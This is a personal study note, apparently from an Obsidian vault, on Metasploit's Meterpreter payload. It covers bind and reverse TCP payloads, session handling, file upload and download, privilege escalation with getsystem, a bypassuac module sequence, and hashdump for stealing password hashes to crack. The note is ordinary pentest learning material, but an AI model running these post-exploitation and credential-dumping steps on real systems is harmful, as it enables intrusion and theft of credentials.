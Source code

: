 
### General Notes

> A very powerful shell that can be used to attack machines and install [[Backdoors]].

---

## Usage inside [[Metasploit]] `msfconsole`

> It is a payload, so select it after setting the correct exploit.


#### Two Types of Payload

> Bind TCP: runs a server process on the target and waits for connection from attacker. `bind_tcp`
> Reverse TCP: performs a TCP connection back to the attacker machine. Helps evade [[Firewall]]s. `reverse_tcp`

---

### Sessions

> After setting the right payload, run the exploit to get a session.
> A meterpreter session is an advanced shell on a target machine.

> Multiple sessions can be hosted in one `msfconsole` host.
> To go back to the `msfconsole` from the meterpreter session:
```
background
```

> To list all the available sessions
```
sessions -l
```

> To resume a session
```
sessions -i <session-id>
```

---

### Exploitation

> Can perform multiple commands in the meterpeter session to get information about the target machine.
```
ifconfig
route
sysinfo
getuid
shell   //to run the standard os shell on the attacked machine.
...
```

>Can upload and download files
```
download <path-to-file-in-attacked> <destination-path-attacker>
upload <destination-path-attacker> <path-to-file-in-attacked>
```
> For window use `\`.
> For linux use `/`.

---

### Privilege Escalation

> To raise privileges using a privilege escalation routine provided by meterpreter.
```
getsystem
```
> *system* user is the highest privileges in windows machines.

> However, the User Account Control (UAC) policy prevents this from happening in modern windows machines.
> To do that, use the `bypassuac` exploit module in [[Metasploit]]. 
```
background  //background the current session.
use exploit/windows/local/bypassuac   //get the bypassuac exploit for windows
show options 
set session <meterpreter session>
```
> This opens a new meterpreter shell session that can use the `getsystem` command.

---

### Dumping Password Database

> Saving the password database and cracking it using [[John the Ripper]] for instance.
> Do that using the `hashdump` post-exploit module in [[Metasploit]].
```
background
use post/windows/gather/hashdump
show options
set session <meterpreter session>
exploit // dumps the hashes.
```

---

### Extra Commands

> Shells can be upgraded to meterpreter shells using the `mult/manage/shell_to_meterpreter` module.

> `/tmp` and `/var/tmp` are writeable.

---
